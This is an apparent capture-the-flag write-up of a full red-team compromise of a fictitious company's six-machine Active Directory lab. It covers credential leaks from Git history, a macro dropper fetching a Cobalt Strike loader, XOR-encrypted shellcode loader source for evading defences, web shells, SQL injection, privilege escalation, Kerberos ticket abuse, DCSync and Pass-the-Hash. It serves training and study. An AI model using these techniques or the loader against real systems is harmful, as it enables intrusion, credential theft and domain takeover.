# Writeup

|  |
|:----------: |
| Diagram of the challenge resolution |

## Index

[[_TOC_]]

## VPN Access

Each participant of the challenge receives a VPN pack containing a README.md with an explanation regarding the infrastructure, rules, and other details of the challenge. This includes a Wireguard configuration file for connecting to the machines involved in the challenge.

For this case scenario,  [Wireguard](https://www.wireguard.com/) works as a VPN client. I highly recommend it due to the simplicity and power it provides. Connecting to the VPN will give you access to the 192.168.56.0/24 network segment where the 6 machines involved are located.

## OSINT and perimeter reconnaissance

The challenge begins after validating that the machine 192.168.56.111 (LAMBDA), one of the machines in the infrastructure, is visible. We start by performing a service scan to verify which machines are visible and which services are exposed.

While scanning, we proceed to perform a small OSINT about the "fictitious" company of the challenge: **La CiberReserva**. We start by taking a look at the main domain: https://ciberreserva.com.

After a brief analysis, we can verify that it is a simple static web page.

|  |
|:----------: |
| View of the web page https://ciberreserva.com |

We proceed to analyze the "CiberReserva" main Github page: https://github.com/LaCiberReserva

|  |
|:----------: |
| Company's Github page  https://github.com/LaCiberReserva |

By analyzing the repositories, we can find the web page, which seems to be assembled by Github Pages (the page is confirmed to be a static web page). We also found other repositories that seem to have no information of interest.

However, there are two profiles associated with the Company: Luis Tamayo and Benito Antoanzas.
There appears to be nothing in the profile of Luis Tamayo, yet there are multiple repositories in Benito Antoanzas'. 

|  |
|:----------: |
| Github of the user Benito Antoñanzas https://github.com/benito-antonanzas |

### Getting Benito Antoñanzas domain credentials from a Github commit

While exploring Benito Antoñanzas' projects, you'll see that just one of them, "ADTools," is his own. The remaining repositories are forks from other sources. While looking at the commits of this repository, we discovered that some domain user credentials are hardcoded and then erased in another change.


|  |
|:----------: |
| Domain credentials hardcoded in Powershell script <br> https://github.com/benito-antonanzas/ADTools/commit/77d0c1923263dc10ad77f4a03259833fd38330cd |

Another option is to use BlackArrow's [Fozar](https://github.com/blackarrowsec/fozar) tool, which allows you to search for regular expressions and patterns in a single or several repository changes.

We use the following command to launch the tool:

| |
|:----------: |
| Running Fozar to search for credentials in Benito Antoñanzas's repositories |

Running the tool generates a report in different formats in which, in this case, we can see that the domain credentials are obtained in the same way.

|  |
|:----------: |
| Domain credentials discovered from Benito Antoñanzas with Fozar |

## First intrusion in OMEGA

It is conceivable that the user Benito Antoanzas was testing the Powershell scripts and, after making a commit, forgot that he had left his credentials in them. He later erased them in the following commit.

With this information, the process starts until the first machine in the infrastructure is compromised.

### Accessing OWA with domain credentials of Benito Antoñanzas

After reviewing the scan results, we found several open ports on the machine 192.168.56.111 (LAMBDA). 

|  |
|:----------: |
| PortScan vs. LAMBDA results |

After a brief analysis of the ports, the focus is on port 443, where it appears that there is an active OWA.

|  |
|:----------: |
| OWA exposed on port 443 from LAMBDA |

The user's mailbox is accessed using his credentials.

|  |
|:----------: |
| Access to Benito Antoñanzas's mailbox using the credentials obtained from Github |

### Internal Spearphishing Attachment and compromise of user Angel Rubio

Following a study of the emails sent and received, it is clear that the compromised user submitted reports to the user Angel Rubio. The emails' attachments are "doc" and "xls" office documents. This information shows that internal Spearphishing can allow compromising this person.

This attack requires downloading one of the files sent by Benito Antoanzas. The document is modified, and a macro containing injected VBA code. This macro will download and run an EXE file from the C:Windows Tasks directory.


The downloaded file is a loader that executes a Cobaltstrike beacon shellcode. A Shellcode Execution with Native Windows Functions technique allows bypassing any defensive measures on the computer.
This strategy is described in [adepts.of0x.cc's post](https://adepts.of0x.cc/alternatives-copy-shellcode/).

Here's an example of the code that we used: 

```cpp
#include <Windows.h> 
 
int main(int argc, char** argv)
{
    char orig_shellcode[CRYPT_SHELLCODE_LEN] = { 
        CRYPT_SHELLCODE_STR
    }; 
 
    char key[XOR_KEY_LEN] = {
        XOR_KEY_STR
    }; 
 
    BOOL ret = 0; 
 
    int orig_shellcode_len = sizeof(orig_shellcode) / sizeof(orig_shellcode[0]); 
    for (int i = 0; i < orig_shellcode_len; i++) { 
        int j = i % sizeof(key) / sizeof(char); 
        orig_shellcode[i] = orig_shellcode[i] ^ key[j]; 
    } 
 
    HANDLE heap = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, 0, 0); 
    char* copied_shellcode = (char*)HeapAlloc(heap, 0, 0x10); 

    SetConsoleTitleA(orig_shellcode); 
    GetConsoleTitleA(copied_shellcode, MAX_PATH); 

    EnumSystemCodePagesW(copied_shellcode, 0); 

    return 0; 
}
```

Once the loader has been compiled, Cobalstrike's "Host File" feature is utilized to allow the file to be downloaded through HTTP.

Subsequently, we change the document to be emailed and create the macro that will run when the victim accesses the file.

|  |
|:----------: |
| Creating Macro in the Office Document |

This macro will run a command in Powershell that will download the Cobalt Beacon loader and execute it. It is not the most elegant and stealthy option, but it's enough to bypass endpoint defenses.

To generate the base64-encoded PowerShell command, you can do it with: `echo 'POWERSHELL_CODE_HERE' | iconv --to-code UTF-16LE | base64 -w 0`

|  |
|:----------: |
| VBA Dropper in Macro of the Office Document |

Once the macro is packed in the document, we send it to the user Angel Rubio with a suggestive message (actually, this is not necessary).

|  |
|:----------: |
| Sending a malicious doc to the user Angel Rubio |

A few minutes after sending the email, an HTTP request is received on the Teamserver where the CobaltStrike loader is downloaded. Shortly after, a Beacon is received on the OMEGA machine belonging to user Angel Rubio, confirming that the victim has downloaded and opened the malicious document.

|  |
|:----------: |
| Downloading the Cobaltstrike loader via HTTP |

|  |
|:----------: |
| Receiving Cobalstrike Beacon from user Angel Rubio on the OMEGA machine |

From Angel Rubio's Beacon on OMEGA, you can read the user flag.

|  |
|:----------: |
| Getting user flag in OMEGA |

### Domain Recon with Bloodhound 

Once a domain user has been compromised and has visibility with the DC, we perform a Domain enumeration using [SharpHound](https://github.com/BloodHoundAD/SharpHound3).

|  |
|:----------: |
| Domain Enumeration using Sharphound from Cobaltstrike |

This information is further analyzed with the [Bloodhound](https://github.com/BloodHoundAD/BloodHound) tool to discover possible compromise paths in the domain.

### Socks Proxy with web shell in XAMPP Server

After analyzing the OMEGA machine, we find a folder of the XAMPP software on Angel Rubio's Desktop.

|  |
|:----------: |
| XAMPP Server folder on Angel Rubio's desktop |

This indicates that the user Angel Rubio can run an HTTP server on the OMEGA machine. The service is started and it is verified that it is bound on 0.0.0.0.0, which means that it is possible to access it from the VPN.

|  |
|:----------: |
| XAMPP Server on OMEGA |

|  |
|:----------: |
| XAMPP Server bound on 0.0.0.0:8001 |

|  |
|:----------: |
| Accessing XAMPP Server web service from the VPN |

We suggest the following by taking advantage of this capacity:
The web service will not allow elevating privileges because it's running as user Angel Rubio. This user has no privileges on the OMEGA computer.
However, we can develop a web shell as a web service. This would allow us to connect with the rest of the computers in the infrastructure. 

This can be achieved using BlackArrow's [Pivotnacci](https://github.com/blackarrowsec/pivotnacci) tool, which will allow you to create a Proxy Socks using the web shell and thus gain visibility of the rest of the machines in the domain that are not accessible from the VPN.

To do this, simply clone the project from Github, modify the PHP agent, and upload it to the XAMPP web directory. 

|  |
|:----------: |
| Modifying Pivotnacci PHP agent that will be uploaded to the XAMPP web directory |

Then run the python script `pivotnacci.py`, which will start a Socks Server on the attacker's machine. It can be used with proxychains to access web services that could not be accessed from the VPN: `pivotnacci http://192. 168.56.110:8001/dashboard/info.php --password "c1b3rr353rv4" -A 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36' -v`

|  |
|:----------: |
| Creating Tunnel Socks with Pivotnacci and accessing web service from an internal machine |


### Getting Angel Rubio's domain credentials from a NET Assembly

However, before we continue exploring the possibilities that Pivotnacci provides, we take a step back and focus our attention on one of the emails located in Benito Antoñanzas' mailbox:

| |
|:----------: |
| Mail of interest sent by Angel Rubio to Benito Antoñanzas |

In this email, Angel Rubio mentions software that communicates with the Exchange server. He also includes his credentials, which are hardcoded. The hint is obvious. In OMEGA, he examines the C:ExchangeCli directory and discovers a binary called "ExchangeCli.exe." This malware is downloaded to the attacker's system for laboratory analysis.

|  |
|:----------: |
| Discovering and downloading ExchangeCli.exe binary on OMEGA |

While examining the binary, we discover that it is a NET Assembly. Therefore, when developed in.NET, the source code is converted to CIL (intermediate language code). This allows the source code to be decompiled and obtained. The tool [ILSpy] (https://github.com/icsharpcode/ILSpy) is used to do this. And, after examining the source code (which is not corrupted), users may see Angel Rubio's dominion credentials.

|  |
|:----------: |
| Credentials of the domain user Angel Rubio when decompiling the NET Assembly |

### Accessing OWA with Angel Rubio's domain credentials

Angel Rubio's inbox is accessed using his credentials. Following an analysis of the emails sent and received, a message from the user Luis Prieto can be identified. This email instructs him to upload some reports to a web service located at http://kappa.ciberreserva.com:8000.

|  |
|:----------: |
| Mail sent by Luis Prieto to Angel Rubio |


Prior to accessing this web service, we identified the IP address of the "KAPPA" machine and added it to the hosts' list. Later, the Pivotnacci tunnel is used from the web browser to access the web service.

|  |
|:----------: |
| Accessing web service on Kappa port 8000 through the Pivotnacci |

## First steps on KAPPA

From here, we will start digging into the KAPPA machine and its exposed services.

### Union Based SQL Injection in Web service

Analyzing the web service on port 8000, we found an endpoint that appears to list "posts" content based on an identifier.

|  |
|:----------: |
| Listing posts at http://kappa.ciberreserva.com:8000 |

It is easy to see that it is vulnerable to SQL Injection.

|  |
|:----------: |
| SQL Injection on endpoint http://kappa.ciberreserva.com:8000/post.php?id=1 |

After a quick validation, we find out that it is a Union Based SQL Injection. This means that we can exploit it easily. Sort of.

|  |
|:----------: |
| Getting name and version of the database exploiting the Union Based SQL Injection |

The existing tables in the database are listed:

|  |
|:----------: |
| Lists the database tables: |

The "users" table looks like it could be interesting, so its columns are listed:

|  |
|:----------: |
| Listing the columns of the table "users". |

Among the columns listed, there are several interesting ones, we proceed to list some of them:

|  |
|:----------: |
| Listing the values of the columns "id", "email" and "password" of the table "users" |

When we look at the results, we can see that the passwords appear to be Bcrypt hashes. Due to the complexity of the technique utilized, a reverse lookup attack on these hashes is ruled impossible. We continue scanning and attempt to show the values of the "pass" column, but we receive the following error:

|  |
|:----------: |
| Trying to list the values of the "pass" column of the "users" table |

The scope of SQL Injection is being investigated further. Then, a list of databases in MySQL is made. And there are two of them: "cbms" (the one that was just dumped) and "fmanager" (this one has not been investigated).


|  |
|:----------: |
| Listing Databases in MySQL |

The tables of the "fmanager" database are listed.

|  |
|:----------: |
| Lists the tables of the database "fmanager". |

The columns of the "users" table are listed:

|  |
|:----------: |
| Listing the columns of the table "users" of the database "fmanager". |

We can see why the "pass" column could not be shown at this point. This is because this field belongs to the "users" table of the "fmanager" database. As a result, showing the columns of the "users" table without filtering by database causes all of the columns to look jumbled together. Another significant conclusion we can draw from this is that the person running the SQL queries has at least the SELECT privilege on both databases.

We'll keep going through the values of the columns "id," "email," and "pass":

|  |
|:----------: |
| Listing the values of the columns "id", "email" and "pass" of the table "users" of the database "fmanager" |

We discover MD5 hash values of some interesting users. We proceed to perform a reverse lookup to obtain the hashed value in the platform https://md5online.org. But we only obtained the clear-text password of the "demo" user.

|  |
|:----------: |
Getting the password of the "demo" user using a reverse lookup with md5online.org |

Now, if you try to access the login of http://kappa.ciberreserva.com:8000/login.php with the credentials of the "demo" user, you get an error indicating that these are not valid. After analyzing the information obtained, the possibility arises that the "fmanager" database belongs to another web application that is in KAPPA.

If you visit port 80 of KAPPA, you will find another web service whose title indicates "File Manager".

|  |
|:----------: |
| Web Service "File Manager" at http://kappa.ciberreserva.com (192.168.56.116) |

If you use the credentials discovered in this login, you can access the administrative section.

|  |
|:----------: |
| http://kappa.ciberreserva.com administrative section with valid credentials |

### Arbitrary File Upload in IIS Web service

In the administrative section of the "File Manager" you can see that the only functionality available is a file upload panel. The next step is to upload a web shell as there seem to be no filters to block PHP file uploads.

|  |
|:----------: |
| Uploading PHP web shell at http://kappa.ciberreserva.com |

It has already been verified that the webserver is a Microsoft-IIS/10.0 and that the user with which the web shell commands are executed is "NT AUTHORITYIUSR."

### Privilege Elevation leveraging SeImpersonate Privilege with EfsPotato

Listing this user's privileges reveals that they have the SeImpersonate privilege. This suggests that this token can be used to elevate privileges to "NT AUTHORITY SYSTEM."

|  |
|:----------: |
| Executing commands from the web shell and SeImpersonate privilege with the user "IUSR" |

Since KAPPA is an internal machine that cannot directly communicate with the attacker's machine, a version of the CobaltStrike Loader with a NamedPipe beacon is uploaded via the "File Manager" to compromise it.

|  |
|:----------: |
| Listing the columns of the table "users" of the database "fmanager". |

We will use the tool [EfsPotato](https://github.com/zcgonvh/EfsPotato) to achieve the Privilege elevation to "NT AUTHORITY SYSTEM." It is uploaded to the website, and EfsPotato.exe is executed. As an argument, we pass the path to the CobaltStrike loader with Beacon NamedPipe.

|  |
|:----------: |
| Running CobaltStrike loader with Beacon NamedPipe using EfsPotato |

Running this binary will create a namedpipe in KAPPA that can be connected to from the OMEGA Beacon, thus creating an SMB tunnel between the two sessions and establishing an interaction between them.

|  |
|:----------: |
| Connecting to KAPPA's NamedPipe from OMEGA's Beacon |

Once the link to the NamedPipe is made, you will receive a Beacon as "NT AUTHORITY SYSTEM" in KAPPA.

|  |
|:----------: |
| Receiving Beacon from KAPPA with the user "NT AUTHORITY SYSTEM" |

With the Beacon of "NT AUTHORITY SYSTEM" on KAPPA, we access the root flag:

|  |
|:----------: |
| Getting root flag in KAPPA |

### Domain Reconnaissance with Bloodhound

At this point, if you have done a good analysis of the information collected with Sharphound, you can see how the KAPPA machine account (KAPPA$) has the ReadLAPS permission on OMEGA.

|  |
|:----------: |
| Discovering KAPPA$'s ReadLAPS on OMEGA with Bloodhound |

Following the discovery of this permission, we continue to acquire the properties of the OMEGA$ domain object from the Beacon using the KAPPA$ user "NT AUTHORITY SYSTEM.". To do so, we can check that KAPPA has the Powershell ActiveDirectory module installed. Taking advantage of this resource, we can execute the following command: `PowerShell Get-AdComputer -Identity "OMEGA" -Properties *`.

|  |
|:----------: |
| Getting the properties of the OMEGA domain object from KAPPA |

When utilizing the Beacon with the KAPPA user "NT AUTHORITY SYSTEM," the "ms-Mcs-AdmPwd" property of OMEGA is read, which contains the password of the OMEGA's Local Administrator in cleartext. This is because the KAPPA machine account (KAPPA$) has the ReadLAPS permission on OMEGA, and we are KAPPA$ network-wide by utilizing "NT AUTHORITY SYSTEM."

|  |
|:----------: |
| Getting OMEGA's ms-Mcs-AdmPwd from the Beacon with KAPPA's "NT AUTHORITY SYSTEM". |

## Lateral movement to OMEGA

With the OMEGA Local Administrator credentials, you can take the compromise to the next level, and move back to OMEGA with Administrator privileges.

The easiest way to do this from CobaltStrike is to use the "Spawn As" functionality with the credentials obtained.

|  |
|:----------: |
| Using CobaltStrike's Spawn As with the OMEGA Administrator credentials |

Once the Spawn As is executed, a CobaltStrike Beacon is received as "OMEGA "Administrator" on the OMEGA machine.

|  |
|:----------: |
| Receiving Beacon from OMEGA with the user "OMEGA "Administrator" |

| Getting Cesar Gandia's credentials from scheduled tasks

After landing on OMEGA and performing some post-exploitation tasks, we found several scheduled tasks in "C:\Windows\System32\Tasks".

|  |
|:----------: |
| Discovering Scheduled Tasks in "C:\Windows\System32\Tasks" |

As XML files, they can be downloaded and opened with a text editor. And, by analyzing the content of the task "Cesar Gandia Supervision" we can see that the scheduled task runs as the user Cesar Gandia and the "LogonType" attribute is "Password".

|  |
|:----------: |
| Content of scheduled task "Cesar Gandía Supervision" |

If you have done a good characterization of the OMEGA machine, you will have seen that the machine has the Wdigest configured, therefore, the credentials will be stored in plain text instead of the NT Hash.

|  |
|:----------: |
| Registration Key with Wdigest enabled |

We can obtain the credentials of the user that runs the scheduled task, Cesar Gandía, from the vaults of the machine. But this requires elevation to "NT AUTHORITY SYSTEM".

|  |
|:----------: |
| Listing Vaults of the OMEGA machine |

|  |
|:----------: |
| Elevating to "NT AUTHORITY SYSTEM" with the Cobaltstrike "elevate" command |

|  |
|:----------: |
| Receiving Beacon from "NT AUTHORITYSYSTEM" in OMEGA |

After elevating privileges to SYSTEM, we obtain Cesar Gandia's credentials from the vaults with Mimikatz.

|  |
|:----------: |
| Getting credentials of the domain user Cesar Gandia from the OMEGA vaults |

Although the flag could have been accessed with the Administrator user, using the "NT AUTHORITY SYSTEM" Beacon on OMEGA, the root flag is accessed:

|  |
|:----------: |
| Getting root flag in OMEGA |

## Arriving at EPSILON

With Cesar Gandia's credentials, a new path to the rest of the machines in the domain is available.

### Lateral Movement to EPSILON via SSH with Cesar Gandia's credentials

From the Bloodhound results, if you query the information about the user Cesar Gandia, you discover that he belongs to a group of "Linux Users".

|  |
|:----------: |
| Discovering that Cesar Gandia belongs to a group of "Linux Users" with Bloodhound |

The credentials may allow getting access through SSH. This is implied because of the presence of a Linux computer in the domain called EPSILON along with this users' membership of this group. This results in the user Cesar Gandia obtaining a Beacon in EPSILON.

|  |
|:----------: |
| Using the credentials of the domain user Cesar Gandia to access via SSH to EPSILON |

|  |
|:----------: |
| Getting Beacon as Cesar Gandia in EPSILON |

With Cesar Gandia's Beacon on EPSILON, you get access to the user flag:

|  |
|:----------: |
| Getting the user flag in EPSILON |

### EPSILON characterization and analysis of the Admintool binary with SUID bit

The EPSILON Beacon confirms that the user Cesar Gandia has no privileges on the computer. When searching for the elevation of privilege paths, we found several binaries with SUID bit. One of them suggests that it may be custom:

|  |
|:----------: |
| admintool binary with SUID bit |

The binary can be downloaded for analysis in the laboratory:

|  |
|:----------: |
| Download of the admintool binary from Cobaltstrike |

When running it on the machine, we check that this binary allows certain commands to be executed on the machine. However, when providing the command "caps", a message is displayed indicating there is no guide for it.

|  |
|:----------: |
| Functionalities available in the admintool binary |

Reversing the binary allows us to understand its inner workings. If we load it into `IDA` to debug it, we see the following:


Among the list of functions, we locate the `main` function and double click on it, and we see the following:


This program requires arguments, therefore, we have to pass them through IDA. To do so, we click on the option `Debugger -> Process Options`. Then a dialog box is opened, and we introduce the arguments within the field `Parameters`.




In `Parameters`, we have to define the parameters we want to pass to the program. We pass the value `whoami` to analyze the execution flow. We place a breakpoint at the beginning of the function `main` and after pressing the play button, we can see the following:


NOTE: `F7` == step in | F8 == step out

We can see, in the first line of the code, that a verification regarding whether 1 or more arguments were passed is performed:


If we pass less than one argument, it jumps to the following lines:



Inside this routine, it calls another function that corresponds to a help menu:



Once executed, it jumps to a routine that executes the return of the function `main`.

In our case, as we passed one argument (`whoami`), it will follow the execution flow in the following routine, it will check if we have passed more than one argument. If not, it will send us an error message and exit the program:


Since we are passing the parameters correctly we will continue executing the following routine:


In this routine, the function 'setuid' is called and later sends a string encoded as an argument to another function. If we follow the execution flow and place ourselves within this function, we can see that the function initially extracts the length of the encoded string:



Then, it calls a function and passes the following arguments:




The arguments passed include the length of the encoded string and the encoded string itself. If we debug the function, we see that it is a function that performs operations using the bytes of the encoded string. If we place ourselves at the end of the function, we see the following:



In the registers, we have the following:



If we click on the little blue arrow, it takes us where this the memory address is located, and we can see its contents:


We see that this function returns a series of bytes that, so far, we do not understand. We know it's return data since nothing more than the function's return value stores eax in a variable:



Following that, it is placed within a loop that performs a NOT function (bitwise operation) on each byte of the result obtained from the previous function:


The result of each NOT is stored there:



We run until the end of the loop to see what the final value is and we see that the result of the NOT functions is located in rdx:


We see that the result is the string `whoami`, now we know that the encoded strings are the commands. 

The end of the instruction is as follows:


It reserves on the heap a portion of memory and moves the decoded string completely and then returns the memory address of the heap. Once it has decoded the string, it calls a function and passes as arguments our initial argument and the decoded string:


If we look at the function, we see the following:


It retrieves the length of our argument and the decoded string. Then it checks if the two lengths are equal. If they are different, it jumps to the following:



It moves 1 to eax and executes the return, this means that if the strings are not equal, the function returns 1. In our case the lengths are equal:


If we look we see that it is a loop:


This loop checks that each byte of the two strings are equal, if the strings are equal the function returns 0, if they are different it returns 1. If we exit the function we can see that just after exiting it checks the result of the function:


If the result is incorrect (1) it jumps to check another encoded string:


On the other hand, if the result is correct (0) it jumps to the following:



It decodes the string again and passes by argument to a function, the encoded string, and our argument:



We see that it decodes another string and compares it with our argument:


If the strings are the same it executes the following:



It seems to set a capability with which we could escalate privileges. On the other hand, if they are not equal, it executes our command:


Once this is done, the function is finished and also the program. After analyzing the program we are going to see how to execute the routine that sets the capability to escalate privileges. If your string is not `whoami`, instead of jumping to the routine that calls the function to execute commands, it will jump to the following routine that checks if your string is an `ls`:


If your string is neither `whoami` nor `ls`, it will check if it is a `pwd`:



Instead, if you pass a `caps` command as an argument you see the following:


We see that it checks if the string is `caps`, if so, it checks to see if it has more than two arguments if it does not have more than two arguments it displays the following:


In our case, we have already preconfigured to pass it more than two arguments (we will see how to obtain it doing static analysis). If it has more than two arguments, it does the following:



It decodes the string "j4aLl5CR" and we see that it saves our argument in eax, we see that it adds 16 to eax, this is done to select the next argument. We see that once it does the addition, it moves our argument to eax, if we look at the contents we see the following:




We see that now the test parameter is selected, which is the one previously configured in IDA. This is how we can see that we have to use two arguments. We are interested in knowing what the encoded string "j4aLl5CR" is, if we put a breakpoint there we can see the following:


And we look at the registers we can see the decoded word.


We see that the decoded string is `python`. The program verifies that our parameter is `python`. Let's change our parameter to `python` and continue with the execution flow.


Once we are back at the same point of execution we see that now instead of jumping to the error message we jump to the routine that will execute the command execution run:


If we follow the execution flow until it reaches the function that executes commands, we see that it enters the routine that executes the command that sets the capability:



So, after reversing the binary, we know that if we run `admintool caps python`, we set as root the capability CAP_SETUID in the python3.8 binary. This states a potential way to elevate privileges.

### Exploitation of Admintool binary and Elevation of Privileges with CAP_SETUID

Now, thinking about the exploit and seeing that the idea is to launch it from the CobaltStrike, we make a small script that we will execute from python3.8, once the CAP_SETUID has been set. This script will create a local user in EPSILON and add it to sudoers. This way, this user can be used to execute commands with sudo.

|  |
|:----------: |
| Uploading script for the elevation of privileges to EPSILON |

The next step is to trigger the capabilities assignment on the python3.8 binary and use it to execute the script just uploaded.

|  |
|:----------: |
| Exploiting the admintool binary to assign CAP_SETUID to the python3.8 binary and elevate privileges with it |

After doing this, we can connect via SSH with the credentials of the created user and get a Cobaltstrike Beacon with a privileged user in EPSILON.

|  |
|:----------: |
| Connecting via SSH to EPSILON with the credentials of the user localuser |

|  |
|:----------: |
| Getting Beacon from Cobaltstrike with the privileged user in EPSILON |

|  |
|:----------: |
| Executing commands with sudo in EPSILON using the localuser user |

With the "localuser" beacon on EPSILON, you can access the root flag:

|  |
|:----------: |
| Getting the root flag in EPSILON |

### Discovering TGT of Alicia Sierra and Ticket Exporting

After elevating privileges, we proceed to post-exploitation in EPSILON. During this stage, some Kerberos tickets (TGTs) are found in the /tmp directory. These tickets are from 2 users: Cesar Gandia and Alicia Sierra.

|  |
|:----------: |
| Discovering Kerberos tickets (TGTs) in the /tmp directory of EPSILON |

As the user Cesar Gandia is already compromised, we focus on Alicia Sierra's TGT. It will be exported and downloaded so that it can be used on another machine and impersonate this user.

|  |
|:----------: |
| Downloading TGT from Alicia Sierra |

Now, the TGT is in ccache format. To import it into Cobaltstrike and use it to impersonate the user Alicia Sierra, you must first convert it to kirbi format (KRB-CRED). To do this, you can use the [ticket_converter](https://github.com/zer1t0/ticket_converter) tool:

|  |
|:----------: |
| Converting TGT in ccache format to kirbi format with ticket_converter |

## Lateral Movement to SIGMA

With the credential obtained, you face the new path that will lead to the engagement of the next machine.

### Pass the Ticket with TGT of Alicia Sierra

To get the impersonation of the user Alicia Sierra, we perform a Pass The Ticket attack with Cobaltstrike. The TGT in kirbi format will be imported into Angel Rubio's Beacon on OMEGA.

|  |
|:----------: |
| Pass the ticket with the TGT of the user Alicia Sierra from OMEGA |

### Reset Password for user Luis Prieto with Alicia Sierra Impersonation

By consulting the possibilities of lateral movement in Bloodhound, with the user Alicia Sierra, we discover that this user has an ACL that allows changing Luis Prieto's credentials.

|  |
|:----------: |
| Discovering with Bloodhound that Alicia Sierra has the ACL "ForceChangePassword" on Luis Prieto |

To abuse this permission, we load the Powerview module in the Cobaltstrike Beacon and, taking advantage of the Pass The Ticket, we successfully change Luis Prieto's password with the following command: `$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force ; Set-DomainUserPassword -Identity ciberreserva\lprieto -AccountPassword $UserPassword`

|  |
|:----------: |
| Luis Prieto's Password Reset using PowerView |

This password change is not random. If you investigate the available scope using the user Luis Prieto, you discover that this user has the ReadLAPS permission on the SIGMA machine.

|  |
|:----------: |
| Discovering with Bloodhound that Luis Prieto has the ReadLAPS permission on SIGMA |

Since we don't have the Active Directory module, and for a change, we will use the [ldapsearch](https://linux.die.net/man/1/ldapsearch) tool through the pivotnacci tunnel to exploit the ReadLAPS permission. For this, simply provide the user's credentials to Ldapsearch and request the properties of the domain object "SIGMA$": `proxychains4 ldapsearch -H ldap://zeta.cyberreserva.com -x -D "lprieto@ciberreserva.com" -w "Password123!" -b "dc=ciberreserva,dc=com" "(sAMAccountName=sigma$)"`

|  |
|:----------: |
| Enumerating the SIGMA object using ldapsearch through the socks proxy |

|  |
|:----------: |
| | Getting ms-Mcs-AdmPwd from SIGMA |

## Accessing SIGMA

With the SIGMA Local Administrator credentials, we can carry out a  privileged lateral movement to the machine. We will do this by using the Cobaltstrike jump functionality via PsExec.

|  |
|:----------: |
| Lateral movement to SIGMA using Cobaltstrike's jump module |

|  |
|:----------: |
| Impersonation with SIGMA access token and execution of PsExec |

After execution, a Cobaltstrike Beacon is received as "NT AUTHORITY SYSTEM" on the SIGMA machine.

|  |
|:----------: |
| Receiving Beacon as "NT AUTHORITYSYSTEM" in SIGMA |

With the Beacon of "NT AUTHORITY SYSTEM" on SIGMA, the root flag is accessed:

|  |
|:----------: |
| Getting root flag in SIGMA |

### Discovering Kerberos Unconstrained Delegation

After performing a characterization of the machine, you can verify that the machine has Kerberos Unconstrained Delegation configured.

|  |
|:----------: |
| Discovering with Bloodhound that Sigma has Kerberos Unconstrained Delegation configured.|

### Exploiting Kerberos Delegation and getting TGT from ZETA$ using PrinterBug

With the level of privileges available and the machine configuration, this is a possible way to compromise the domain:
- Rubeus is run with the user "NT AUTHORITY SYSTEM" in SIGMA, monitoring the machine's TGTs.
- From SIGMA, ZETA's machine account (ZETA$) is forced to authenticate to SIGMA using the [PrinterBug] vulnerability (https://github.com/leechristensen/SpoolSample).
- Since the machine has Kerberos Unconstrained Delegation configured when ZETA$ authenticates to SIGMA, it leaves its TGT on the machine. We can capture this ticket with Rubeus.
- With that TGT, ZETA$ can be impersonated and get escalation in the domain.

|  |
|:----------: |
| Getting TGT from ZETA$ by exploiting the PrinterBug and leveraging the Unconstrained Delegation of Kerberos in SIGMA |

### Pass The Ticket as ZETA$ and DCsync

With the TGT of the ZETA machine account (ZETA$), you can perform a Pass The Ticket, impersonate ZETA and thus perform a Dcsync to obtain the credentials of a Domain Administrator.

To do this, first decode the TGT obtained with Rubeus, which will be in kirbi format and can be imported from CobaltStrike.

|  |
|:----------: |
| Decoding the ZETA$ TGT obtained with Rubeus !

|  |
|:----------: |
| Pass The Ticket with the TGT of ZETA$ from Cobaltstrike |

Once impersonated, we perform a Dcsync with the target user Luis Tamayo, the Domain Administrator. We carry out the Dcsync using the Cobaltstrike module previously implemented.

|  |
|:----------: |
| Getting the credentials of the domain administrator Luis Tamayo using the Dcsync technique |

## The crown jewel, ZETA

With Luis Tamayo's credentials (his NT hash), we can perform a Pass The Hash attack combined with a Cobaltstrike to compromise ZETA.

|  |
|:----------: |
| Pass the Hash as Luis Tamayo and running PsExec on ZETA |

|  |
|:----------: |
| Receiving Beacon as "NT AUTHORITY SYSTEM" on ZETA |

With the Beacon of "NT AUTHORITY SYSTEM" on ZETA, you get access to the root flag:

|  |
|:----------: |
| Getting the root flag in ZETA |

## The Last Bastion, LAMBDA

Having compromised the credentials of a Domain Administrator and Domain Controller, the compromise of the rest of the machines is inevitable. The last step is to move to LAMBDA, the last bastion standing.

### Pass The Hash with Luis Tamayo's hash to LAMBDA

Using the Pass The Hash as Luis Tamayo, you can read the flag remotely:

|  |
|:----------: |
| Pass the Hash as Luis Tamayo and obtaining the root flag from LAMBDA |

However, as the goal is to compromise all machines in the domain, we jump to LAMBDA using Cobaltstrike.

|  |
|:----------: |
| Pass the Hash as Luis Tamayo and execute PsExec over LAMBDA |

Finally, after receiving the Beacon as "NT AUTHORITY SYSTEM" in LAMBDA, the exploitation is concluded having compromised the six machines of the domain with the highest level of privileges.

|  |
|:----------: |
| Diagram with all the compromised machines of LA CIBERRESERVA |
